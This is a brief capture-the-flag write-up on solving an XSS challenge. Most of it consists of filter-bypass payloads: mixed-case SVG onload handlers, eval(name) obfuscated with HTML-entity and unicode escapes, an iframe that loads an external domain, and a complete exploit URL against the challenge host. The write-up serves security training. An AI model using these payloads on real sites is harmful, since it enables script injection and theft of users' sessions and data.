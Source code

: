 # How 2 xss solve step by step

## Step 1
`<svg/onload=alert(123)>` // Not Work since it replace the repeated characters case-sensitively
`<svg/OnLoad=Alert(123)>` // Work since it replace the repeated characters case-sensitively

## Step 2
Ok to xss but we want to execute our command. 
Yet it still has a problem that the character will be deprecated like before
So we use, where &#97 is the HTML entity of a and \u{65} is the unicode of e
`<SVG/ONLoAd=eval(n&#97;m\u{65})>` now makes xss seems work.


`<ifRame src=/\QVXZ.ML>` Dont forget to change iframe to ifRame since r and r are case-sensitively identical.
https://edu-ctf.kaibro.tw:30678/hackme.php?q=%3CSVG%2FONLoAD%3Deval%28n%26%2397%3Bm%5Cu%7B65%7D%29%3E